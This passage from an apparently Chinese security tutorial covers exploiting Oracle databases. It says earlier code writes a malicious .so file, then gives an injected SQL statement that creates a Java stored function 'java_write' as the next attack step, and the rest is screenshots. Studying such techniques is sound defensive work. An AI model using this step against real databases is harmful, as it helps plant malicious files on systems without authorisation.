 [![](assets/1710899076-25d3fc5a5c942b50bc7a57dbed929d6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101342-fe906912-d5de-1.png)

这段代码会写入一个恶意的 so 文件。接下来该做的就是创建 function 了。  
`sql=create or replace function java_write(path varchar2) return varchar2 as language java name 'JavaTool.write(java.lang.String) return java.lang.String';`

[![](assets/1710899076-26c54295c8791ad8bf98ca599743b273.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101349-02a3a244-d5df-1.png)
